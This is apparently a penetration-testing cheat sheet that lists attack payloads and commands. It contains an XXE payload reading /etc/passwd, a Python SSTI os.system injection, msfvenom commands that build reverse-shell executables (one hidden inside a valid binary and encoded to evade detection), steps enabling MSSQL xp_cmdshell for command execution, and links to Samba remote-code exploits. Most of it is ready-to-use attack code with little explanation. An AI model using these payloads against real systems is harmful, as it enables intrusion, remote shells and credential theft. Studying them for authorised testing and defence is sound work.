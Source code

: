 ### XXE
[detail guide](https://portswigger.net/web-security/xxe)

Example paylaod
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

### Python SSTI
```python
{% import os %}{{os.system('PAYLOAD')}} 
```

### Binary payload injection(msfvenom)
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXIT_FUNC=thread -f exe -e x86/shikata_ga_nai -i 9 -x VALID_BINARY -o bad_binary.exe
```
## Non web vuln
Some services may have vulnerabilities that allow you to gain shell access.

### from xp_cmdshell to shell (may see in AD env)
```bash
# If you are doing it against a host in different subnet, set up the proxy then execute with proxychians
sqsh -S IP -U DOMAIN_OR_HOST_NAME\\USER -P PASS
exec sp_configure ‘show advanced options’, 1;
reconfigure;
exec sp_configure ‘xp_cmdshell’, 1;
reconfigure;
\go
xp_cmdshell 'PAYLOAD';
\go
```

#### Samba Eternal Red
[Exploit 1](https://redteamzone.com/EternalRed/)

[Exploit 2](https://github.com/joxeankoret/CVE-2017-7494)

[Exploit 3](https://github.com/opsxcq/exploit-CVE-2017-7494)
``` bash
#check if the host is vulnerable
nmap --script smb-vuln-cve-2017-7494 --script-args smb-vuln-cve-2017-7494.check-version –p445 IP 
```

#### Samba 3.0
[Exploit 1](https://github.com/amriunix/CVE-2007-2447)
[Exploit 2](https://gist.github.com/joenorton8014/19aaa00e0088738fc429cff2669b9851)
```bash 
# Create payload with
msfvenom -p cmd/unix/reverse_netcat LHOST=IP LPORT=PORT -f python
```
